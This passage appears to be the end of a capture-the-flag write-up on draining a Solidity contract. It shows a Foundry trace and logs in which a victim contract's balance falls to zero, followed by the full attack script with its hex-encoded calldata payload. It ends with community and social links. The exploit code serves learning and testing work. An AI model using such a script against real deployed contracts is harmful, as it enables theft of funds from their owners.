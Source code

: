 ```bash
    ├─ [43904] 0xA0Eb20483Cb60213bF944c2C3833bebc9fbc4706::c9dfadca(51bfda9b646381c7546bf68d2c37e248a37bde0f1833c4a029d90519)
    │   ├─ [6422] → new <Unknown>@0x37a9B80AcC6A434d4E29D8873BaB9E471cb0d244
    │   │   └─ ← 32 bytes of code
    │   ├─ [5003] 0x37a9B80AcC6A434d4E29D8873BaB9E471cb0d244::fallback() [delegatecall]
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ emit log_string(:  ----------------------- After Attack ----------------------------------)
    ├─ emit log_named_uint(key: Balance of the contract, val: 1100000000000000000)
    ├─ emit log_named_uint(key: Balance of the victim, val: 0)
    └─ ← ()

Script ran successfully.

== Logs ==
   ----------------------- Before Attack ----------------------------------
  Balance of the contract: 1000000000000000000
  Balance of the victim: 100000000000000000
   ----------------------- After Attack ----------------------------------
  Balance of the victim: 0
```

Voila! The victim contract is now holding **0 ETH**! We drained all the eth from the contract :) 


Don’t hesitate to join us on discord, we are building a InfoSec web3 community 🔥 with CTFs.

### 6. Socials & Payload

| Discord (Join us!) | Github | Twitter | 
| ----------------------------- | ------ | ---------- | 
| https://discord.gg/54Q9pnpQcV |  https://github.com/Ethnical/Swek3      |  https://twitter.com/EthnicalInfo |

```solidity
The payload used not _clean (yet)_:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/Test.sol";

contract CounterScript is Script, Test {
	function setUp() public {}

	function run() public {
		vm.deal(address(this), 1 ether);
		address victim = 0xA0Eb20483Cb60213bF944c2C3833bebc9fbc4706;
		string memory victim_addr = "";
		emit log_string(" ----------------------- Before Attack ----------------------------------");
		emit log_named_uint("Balance of the contract", address(this).balance);
		emit log_named_uint("Balance of the victim", address(victim).balance);
		bytes memory data = hex"c9dfadca51bfda9b646381c7546bf68d2c37e248a37bde0f1833c4a029d90519"; // hexadecimal payload xored.


		victim.call{ value: 0.1 ether }("");
		vm.warp(block.timestamp + 10000);
		victim.call{ gas: 1_000_000 }(data);
		emit log_string(" ----------------------- After Attack ----------------------------------");
		emit log_named_uint("Balance of the contract", address(this).balance);
		emit log_named_uint("Balance of the victim", address(victim).balance);
```
